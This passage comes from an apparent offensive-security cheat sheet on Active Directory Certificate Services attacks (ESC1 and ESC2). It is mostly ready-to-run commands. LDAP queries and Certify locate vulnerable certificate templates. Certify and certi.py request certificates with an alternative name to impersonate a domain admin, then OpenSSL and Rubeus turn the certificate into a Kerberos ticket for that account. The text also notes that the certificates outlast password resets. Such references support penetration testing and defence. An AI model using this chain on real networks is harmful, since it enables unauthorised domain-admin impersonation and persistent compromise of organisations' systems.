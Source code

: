 Exploitation:
* Use [Certify.exe](https://github.com/GhostPack/Certify) to see if there are any vulnerable templates
    ```ps1
    Certify.exe find /vulnerable
    or
    PS> Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
    ```
* Use Certify or [Certi](https://github.com/eloypgz/certi) to request a Certificate and add an alternative name (user to impersonate)
    ```ps1
    # request certificates for the machine account by executing Certify with the "/machine" argument from an elevated command prompt.
    Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:VulnTemplate /altname:domadmin
    certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
    ```
* Use OpenSSL and convert the certificate, do not enter a password
    ```ps1
    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    ```
* Move the cert.pfx to the target machine filesystem and request a TGT for the altname user using Rubeus
    ```ps1
    Rubeus.exe asktgt /user:domadmin /certificate:C:\Temp\cert.pfx
    ```

**WARNING**: These certificates will still be usable even if the user or computer resets their password!

**NOTE**: Look for **EDITF_ATTRIBUTESUBJECTALTNAME2**, **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT**, **ManageCA** flags, and NTLM Relay to AD CS HTTP Endpoints.


#### ESC2 - Misconfigured Certificate Templates

Requirements:
*  Allows requesters to specify a SAN in the CSR as well as allows Any Purpose EKU (2.5.29.37.0)

Exploitation:
* Find template
  ```ps1
  PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
  ```
* Request a certificate specifying the `/altname` as a domain admin like in [ESC1](#esc1---misconfigured-certificate-templates).
